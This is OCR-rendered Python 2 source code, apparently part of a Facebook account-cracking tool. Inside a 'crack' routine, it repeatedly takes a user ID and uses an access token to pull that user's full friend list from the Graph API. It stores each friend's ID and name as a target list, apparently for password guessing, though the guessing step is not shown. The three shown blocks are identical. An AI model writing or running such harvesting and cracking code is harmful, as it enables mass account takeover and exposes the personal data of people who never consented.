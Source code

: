         idt = raw_input('[1] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
 
        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
        idt = raw_input('[2] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
 
        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
        idt = raw_input('[3] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
 
        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        